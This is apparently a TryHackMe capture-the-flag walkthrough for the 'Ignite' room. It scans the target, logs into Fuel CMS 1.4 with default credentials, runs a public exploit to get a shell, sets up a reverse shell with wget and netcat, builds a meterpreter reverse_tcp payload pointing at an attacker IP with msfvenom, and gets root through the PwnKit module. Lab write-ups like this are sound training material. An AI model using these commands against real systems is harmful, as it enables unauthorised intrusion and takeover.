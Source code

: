 ```yaml
---

title: Walkthrough - Ignite
published: true
---
```


A new start-up has a few issues with their web server.

[https://tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)

* * *

## Root it!

- ``nmap -p- -T4 10.10.1.30 -vvv``

Few things of note. Inital nmap scan shows we have a webserver at port 80 and viewing the site, we can see a default Fuel CMS Version 1.4 page. Will run gobuster to scan while nmap runs. 

It doesnt look like there are any other open ports on this server. But will keep running scans while we check out the webserver.

- ``gobuster dir -u http://10.10.1.30 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php,cgi -t 100 --no-error``
- we see a robots.txt with ``/fuel/`` which shows us the fuel cms login page.

##   Gobuster Results

```shell
/home                 (Status: 200) [Size: 16591]
/index                (Status: 200) [Size: 16591]
/index.php            (Status: 200) [Size: 16591]
/0                    (Status: 200) [Size: 16591]
/offline              (Status: 200) [Size: 70]   
/robots.txt           (Status: 200) [Size: 30]   
/server-status        (Status: 403) [Size: 298]  
```

Reading the fuel CMS default page gives us default credentials admin:admin. We cnan login to /fuel/ with these. lol.

- ``searchsploit fuel cms`` we have some exploits to try.
- ``python3 50477.py -u http://10.10.1.30`` will give us a shell
- wget a php reverse shell over and setup netcat listener

![0xskar](/assets/ignite01.png)

* * * 

## User.txt

- ``cat flag.txt`` in ``/home/www-data``

* * * 

## Root.txt

- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- upload meterpreter shell ``msfvenom -p linux/x86/meterpreter/reverse_tcp  LHOST=10.2.127.225 LPORT=5555 -f elf > meterpreter.elf``
- setup ``msfconsole`` and run ``linux/local/cve_2021_4034_pwnkit_lpe_pkexec`` to get root.txt

* * * 
